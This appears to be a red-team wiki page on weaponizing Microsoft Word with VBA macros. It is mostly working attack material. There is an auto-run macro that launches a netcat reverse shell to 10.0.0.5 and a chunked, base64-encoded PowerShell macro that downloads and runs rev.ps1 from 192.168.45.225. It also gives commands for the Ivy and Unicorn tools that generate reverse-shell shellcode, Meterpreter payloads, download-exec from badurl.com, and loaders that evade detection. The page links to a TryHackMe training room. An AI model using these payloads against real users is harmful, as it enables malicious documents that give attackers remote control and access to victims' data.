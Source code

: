 # VBA (Macro)

## Theory

This technique will build a primitive word document that will auto execute the VBA Macros code once the Macros protection is disabled.

VBA stands for Visual Basic for Applications, a programming language by Microsoft implemented for Microsoft applications such as Microsoft Word, Excel, PowerPoint, etc. VBA programming allows automating tasks of nearly every keyboard and mouse interaction between a user and Microsoft Office applications.

{% hint style="info" %}
VBAs/macros by themselves do not inherently bypass any detection.
{% endhint %}

## Practice

{% tabs %}
{% tab title="Basic Usage" %}
1 - Create new word document (CTRL+N)\
2 - Hit ALT+F11 to go into Macro editor\
3 - Double click into the "This document" and CTRL+C/V the below:

```vba
'Macro
Private Sub Document_Open()
  MsgBox "game over", vbOKOnly, "game over"
  a = Shell("C:\tools\shell.cmd", vbHide)
End Sub
```

```bash
#C:\tools\shell.cmd
C:\tools\nc.exe 10.0.0.5 443 -e C:\Windows\System32\cmd.exe
```

4 - ALT+F11 to switch back to the document editing mode\
5 - Save the file as a macro enabled document, for example as dotm, Word 97-2003 Document.

{% hint style="danger" %}
Using the newer **.docx**  extension, we can't embed or save the macro in the document. The macro will not be persistent.
{% endhint %}
{% endtab %}

{% tab title="ActiveX Macro" %}
We may leverage ActiveX Objects which provide access to underlying operating system commands using the following VBA template. This can be achieved with WScript through the [Windows Script Host Shell](wsh.md) object.

Fisrt, create a base64 powershell payload

```bash
$ echo -n 'iex(iwr http://192.168.45.225/rev.ps1 -UseBasicParsing)'|iconv -t 'utf-16le'|base64 -w0
aQBlAHgAKABpAHcAcgAgAGgAdAB0AHAA...
```

Secondly, we may use this python script to split the base64-encoded string into smaller chunks (50 chars)

{% code title="chunk_vba_payload.py" %}
```python
str = "powershell.exe -nop -w hidden -e aQBlAHgAKABpAHcAcgAgAGgAdAB0AHAA..."
n = 50

for i in range(0, len(str), n):
	print("Str = Str + " + '"' + str[i:i+n] + '"')
```
{% endcode %}

```bash
$ python chunk_payload.py 
```

Then, add the following macro in your word document (see [Basic Usage](vba.md#basic-usage)) using the generated payload

```vba
'Macro
Sub AutoOpen()
  MyMacro
End Sub

Sub Document_Open()
  MyMacro
End Sub

Sub MyMacro()
  Dim Str As String
  Str = Str + "powershell.exe -nop -w hidden -e aQBlAHgAKABpAHcAc"
  Str = Str + "gAgAGgAdAB0AHAAOgAvAC8AMQA5ADIALgAxADYAOAAuADQANQA"
  Str = Str + "uADIAMgA1AC8AcgBlAHYALgBwAHMAMQAgAC0AVQBzAGUAQgBhA"
  Str = Str + "HMAaQBjAFAAYQByAHMAaQBuAGcAKQA="
  CreateObject("Wscript.Shell").Run Str
End Sub
```
{% endtab %}

{% tab title="Ivy" %}
[Ivy](https://github.com/optiv/Ivy) is a payload creation framework for the execution of arbitrary VBA (macro) source code directly in memory. Ivy’s loader does this by utilizing programmatical access in the VBA object environment to load, decrypt and execute shellcode.

First, we have to generate payload for both x86 and x64 architecture:

```bash
#x64
msfvenom -p -a x64 windows/shell_reverse_tcp LHOST=<ATTACKING_IP> LPORT=<ATTACKING_PORT> -f raw > stageless64.bin

#x64
msfvenom -p -a x86 windows/shell_reverse_tcp LHOST=<ATTACKING_IP> LPORT=<ATTACKING_PORT> -f raw > stageless86.bin
```

Now we can generate the malicious js file that will load our payload.

```bash
# Inject mode performs a process injection attack 
# where a new process is spawned in a suspended state and the shellcode is injected into the process
# This is for a Stagless Injected payload spawning notepad.exe
./Ivy -stageless -Ix64 stageless64.bin -Ix86 stageless86.bin -P Inject -process64 C:\\windows\\system32\\notepad.exe -process32 C:\\windows\\SysWOW64\\notepad.exe -O stageless.js 

# The stealthier option is Local. This loads the shellcode directly into the current Office process.
# It comes with additional features to avoid detection 
# This is for a Unhooked Stagless Local payload
./Ivy -stageless -Ix64 stageless64.bin -Ix86 stageless86.bin -P Local -unhook -O stageless.js

# This is for Non-Executable File Types payload
./Ivy -stageless -Ix64 stageless64.bin -Ix86 stageless86.bin -P Local -unhook -O stageless.png
```

We can execute this payload by using cscript.exe or build a loader using MSHTA.exe, Macro downloader, Stylesheet Ivy options:

```bash
# Simply execute payload on the windows target (stageless.png contains js)
cscript //E:jscript stageless.png

#Generate a Js payload and an evil macro for delivery
./Ivy -stageless -Ix64 stageless64.bin -Ix86 stageless86.bin -P Inject -unhook -O stageless.js -delivery macro -url http://ATTACKING_IP

#Generate a Js payload oneliner for BitsAdmin delivery
./Ivy -Ix64 stageless64.bin -Ix86 stageless32.bin -P Local -O test.js -url http://ATTACKING_IP -delivery bits -stageless

#Gneerate a XSL payload and oneliner for Stylsheet delivery
./Ivy -Ix64 stageless64.bin -Ix86 stageless32.bin -P Local -O test.xsl -url http://ATTACKING_IP -delivery xsl -stageless

#Generate a oneliner and hta payload for MSHTA.exe delivery
./Ivy -Ix64 stageless64.bin -Ix86 stageless32.bin -P Local -O test.hta -url http://ATTACKING_IP -delivery hta -stageless
```
{% endtab %}

{% tab title="Unicorn" %}
[Unicorn](https://github.com/trustedsec/unicorn) is a simple tool for using a PowerShell downgrade attack and inject shellcode straight into memory. It can be used to generate a macro.

```bash
# Syntax:
# python unicorn.py payload reverse_ipaddr port <optional hta or macro, crt>

# Examples:
# Meterpreter
python unicorn.py windows/meterpreter/reverse_https <ATTACKING_IP> <ATTACKING_PORT> macro

# Reverse Shell
python unicorn.py windows/x64/shell_reverse_tcp <ATTACKING_IP> <ATTACKING_PORT> macro

# Download Exec
python unicorn.py windows/download_exec url=http://badurl.com/payload.exe macro

# Custom Powershell script
python unicorn.py evil.ps1 macro

# Custom shellcode
# shellcode should be 0x00 formatted
python unicorn.py <path_to_shellcode.txt> macro
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://tryhackme.com/room/weaponization" %}

